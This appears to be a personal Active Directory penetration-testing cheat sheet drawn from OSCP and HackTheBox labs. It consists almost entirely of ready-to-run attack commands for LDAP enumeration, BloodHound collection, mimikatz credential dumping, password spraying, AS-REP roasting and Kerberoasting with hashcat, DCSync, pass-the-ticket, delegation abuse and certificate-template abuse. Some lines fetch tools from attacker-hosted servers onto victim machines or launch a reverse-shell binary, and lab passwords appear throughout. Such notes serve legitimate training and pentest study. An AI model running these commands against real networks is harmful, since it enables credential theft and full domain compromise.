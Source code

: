 `ldapdomaindump -d 'resourced.local' ldap://192.168.211.175`

`ldapdomaindump -u 'authority.htb\svc_ldap' -p 'lDaP_1n_th3_cle4r!' -d 'authority.htb' ldaps://10.129.144.243`

`iwr -UseBasicParsing http://192.168.45.154:5050/SharpHound.ps1 -OutFile .\SharpHound.ps1`

SharpHound

`iwr -UseBasicParsing http://192.168.45.154:5050/SharpHound.ps1 -OutFile .\SharpHound.ps1`

`Import-Module .\SharpHound.ps1`

`Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corpaudit"`

SMB - IPC$ Read (userenum)

`impacket-lookupsid anonymous@192.168.225.30`

Dump hashes (require local admin)

`.\mimikatz.exe`

`privilege::debug`

`sekurlsa::logonpasswords`

`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"`

Password Policy

`net accounts`


Password Spraying

`crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success`

`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`

*If you receive a network error, make sure that the encoding of **usernames.txt** is ANSI. You can use Notepad's Save As functionality to change the encoding.*

## **AS-REP Roasting**

Get hashes (hashcat -a 0 -m 18200 )

From Linux (pete is our compromised user whose password we will need)

`impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`

From Victim (Connected to AD)

`.\Rubeus.exe asreproast /nowrap`

```jsx
check for kerboras without having users
  impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.10.10.161 -request
If we have a vaild users list from ldap or enum4linux
  impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.10.10.161 -no-pass -usersfile users.txt
```

Crack AS-REP Roasting

`sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

## Kerbroasting

`sudo *ntpdate DCIP*`

hashcat 13100

From Linux (pete is our compromised account)

`sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`

From victim 

`.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`

`sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`



*If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate[3](https://portal.offsec.com/courses/PEN-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_442-3) or rdate[4](https://portal.offsec.com/courses/PEN-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/kerberoasting-46108#fn-local_id_442-4) to do so.*

`impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`

To get our user SID

`whoami /user`

DSSync 

`.\mimikatz.exe`

`lsadump::dcsync /user:corp\dave`

`lsadump::dcsync /user:corp\Administrator`

`impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`

Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 'C:\xampp\htdocs\uploads\rev2.exe'


Pass The Ticket

mimikatz

`privilege::debug`

`sekurlsa::tickets /export`

then exit and run on powershell

`dir *.kirbi`

we want a user with access to web04 for example

(back to mimikatz)

`kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`

now exit and check with klist just to ensure it worked

NOW

`ls \\web04\backup`

ticket 

└─$ KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass


GENERIC ALL

```jsx
net rpc password "CHRISTOPHER.LEWIS" "newP@ssword2022" -U "nagoya-industries.com"/"svc_helpdesk"%"U299iYRmikYTHDbPbxPoYYfa2j4x4cdg" -S 192.168.211.21
OR
bloodyAD  -u rsmith -p IHateEric2 -d lab.trusted.vl --host 10.10.194.134 set password ewalters zoz.1234
```

GENERIC ALL

`net user username Password1`

FORCE CHANGE PASSWORD

```jsx
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
[2:25 AM]
Set-DomainUserPassword -Identity 'benjamin' -AccountPassword $NewPassword
```

GENERIC WRITE

`python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'`
then crack the hash


If we have generic all (Resource-Based Constrained Delegation)

ON UR MACHINE :

```jsx
git clone https://github.com/SecureAuthCorp/impacket.git
git clone https://github.com/Kevin-Robertson/Powermad.git
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries (this for rubeus binary)
(cp Powermad/Powermad.ps1 & Rubeus.exe to the same dir)
python -m http.server 9999
```

ON TARGET MACHINE :

```jsx
certutil -urlcache -split -f http://10.10.14.29:9999/Powermad.ps1 pm.ps1
certutil -urlcache -split -f http://10.10.14.29:9999/Rubeus.exe rb.exe
Import-Module ./pm.ps1
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
./rb.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
(save all the result into a file (needed later))
```

ON UR MACHINE :

```jsx
cd ~/htb/Support/impacket/examples
python getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
export KRB5CCNAME=administrator.ccache
(if getting error with administrator.ccache not found, rename : mv administratorblablablabla.ccache administrator.ccache)
python smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

ADCS

`certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable`

ESC1:

`impacket-addcomputer AUTHORITY.HTB/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name computer_name -computer-pass computer_password`

`certipy req -u 'computer_name$' -p computer_password -ca AUTHORITY-CA -template CorpVPN -upn administrator@AUTHORITY.HTB -dns AUTHORITY.HTB -dc-ip 10.10.11.222`

Now get the hash of admin OR grant your user DCSync priv

`certipy auth -pfx administrator_authority.pfx -domain AUTHORITY.HTB -username administrator -dc-ip 10.10.11.222`

OR when you get (KDC_ERR_PADATA_TYPE_NOSUPP)

`python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain AUTHORITY.HTB -dc-ip "10.10.11.222" -target svc_ldap -elevate
impacket-secretsdump svc_ldap@AUTHORITY.HTB`

`/home/kali/go/bin/ldapnomnom --input /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --output multiservers.txt --dnsdomain ge.local --maxservers 128 --parallel 128 --server 192.168.5.252`

`bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23 -ns 10.10.10.175 -c all`

find usernames using ldap

  `ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local" | grep userPrincipalName:`
also grep for svc accounts

  `ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local" | grep svc `
check for password in description

  `ldapsearch -x -H ldap://10.10.10.169 -D '' -w '' -b "DC=megabank,DC=local" | grep -i description:`

try the password for all users

  `kerbrute passwordspray users.txt 'Welcome123!' -d megabank.local --dc 10.10.10.169`
